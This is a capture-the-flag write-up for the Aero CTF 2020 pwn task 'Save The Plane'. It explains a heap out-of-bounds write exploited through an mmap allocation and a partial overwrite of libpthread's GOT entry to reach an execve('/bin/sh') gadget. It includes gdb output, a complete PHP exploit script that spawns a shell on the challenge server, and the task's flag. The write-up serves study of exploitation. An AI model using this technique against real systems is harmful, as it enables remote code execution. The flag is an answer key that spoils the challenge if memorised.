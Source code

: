 # Save The Plane - Aero CTF 2020 (warmup, 493p, 8 solved)
## Introduction

Save The Plane is a pwn task.

An archive containing a binary, a libc and its corresponding loader (`ld.so`).

The binary simulates a scenario in which the user is in a plane where a bomb is
about to detonate, and they have to defuse it in 3 seconds or the program will
exit.

Although it is in the `Warmup` category, this was the hardest pwn task.

## Reverse engineering

The program is straightforward: there is only one valid path, and barely no
choice to make.

It first asks for an integer `n` inferior to `0x20000`. It will allocate `n`
bytes of memory by calling `malloc(n)`.

It will then spawn a new thread that waits 6 seconds and leaves. (The bomb)

In the meantime, it will ask the user for an offset and will read `n` bytes to
`ptr + offset`. There are no bound checks on purpose.

The program waits for the bomb thread to end before exiting.

## Exploitation

The first problem that arises while trying to exploit this vulnerability is
that, the binary being executed on a system with ASLR enabled, it is not
possible to locate the main ELF or libc mappings as the gap between the heap and
these mappings are randomized at each start of the binary.

This problem can be circumvented by allocating a huge number. When an
allocation is made with the size passing a certain threshold, `malloc` uses the
`mmap` syscall to allocate memory instead of using the program break (the heap).

This syscall is also used by the loader (`ld.so`) when loading libraries. The
offset between different maps are deterministic despite ASLR. This makes it
possible to overwrite the different libraries' writable pages.

The second problem is that, once again because of ASLR, it is not possible to
put a function pointer from the libc as the full address the libc's base is not
known. No interesting gadget was identified in the non-PIE binary.

On top of that, both thread seemingly calls no function from a pointer stored in
a writable memory area.

It turns out they do: the second thread is called by `start_thread` from
`libpthread.so`.

It then calls a bunch of functions to clear the resources allocated to the
thread. This library imports a few functions from the libc, and uses its GOT to
keep track of the relocation (just like any program). This means that there are
pointers to libc functions stored in a writable mapping.

This does not solve the base address problem, but this helps a lot : instead of
writing the full address, it is possible to write only the first few bytes.
Pages are aligned to a multiple of 4096 bytes, so the 12 least significant bits
are always the same.

Overwriting two bytes (16 bits) results in a 4-bits bruteforce. (1 chance out of
16)

Overwriting three bytes (24 bits) results in a 12-bits bruteforce. (1 chance out
of 4096)

After digging through libpthread's GOT, `__getpagesize` appears to be a good
candidate because:
1. it is called after the thread runs, so overwriting it will make the program
   jump to the modified pointer
2. it is called before the thread runs, so its symbol is already resolved
3. its offset (`libc+0xf1e20` is very close to the one-shot gadget at
   `libc+0xe664b`)

```
(gdb) x/ga 0x7ffff7fae000 + 0x0001c1d0
0x7ffff7fca1d0:	0x00007ffff7edfe20 // __getpagesize (in libc)

(gdb) x/5i 0x00007ffff7edfe20 - 0xf1e20 + 0xe664b
   0x7ffff7ed464b:	mov    rax,QWORD PTR [rip+0xd285e]        # 0x7ffff7fa6eb0
   0x7ffff7ed4652:	lea    rsi,[rsp+0x60]
   0x7ffff7ed4657:	lea    rdi,[rip+0x9d690]        # 0x7ffff7f71cee
   0x7ffff7ed465e:	mov    rdx,QWORD PTR [rax]
   0x7ffff7ed4661:	call   0x7ffff7eb5e80 // execve("/bin/sh", NULL, environ)

(gdb) x/s 0x7ffff7f71cee
0x7ffff7f71cee:	"/bin/sh"
```

As a result, overwriting the 2 first bytes of the `__getpagesize` pointer will
result in a 1/16 chances to have the call replaced with a call the a one-shot
gadget.

**Flag**: `Aero{641b1b4a31366a80c76ef8328940e091c03b67a69877c76282345b0de310cf8d}`

## Appendices

### pwn.php
```php
#!/usr/bin/php
<?php
require_once("Socket.php");

$t = new Socket("tasks.aeroctf.com", 33027);

$t->expectLine("---- Save plane ----");

$t->expectLine("{?} How many resources do you need to save the plane?");
$t->expect("{?} Resources: ");
$t->write((0x30000 - 0x18) . "\n");
$offset = 0x33000 - 0x10;

$t->expectLine("{+} You can use this resources as you will!");

$t->expect("{?} Enter data offset: ");
$t->write((0x7ffff7fca1d0 - 0x00007ffff7dbb010) . "\n"); // getpagesize got

$t->expect("offset = ");
$t->readLine();

$t->expect("{?} Input data: ");
$t->write("\x4B\x46"); // one-gadget: should work 1/8


$t->expectLine("...************ BOOOOOOOOOOOM!!!!!!!!!!! ************");
$t->write('/bin/cat /tmp/flag.txt ; echo $(</tmp/flag.txt)' . "\n");

try {
	while($packet = $t->readLine())
		printf("%s\n", $packet);
} catch(Exception $e) {
}
```
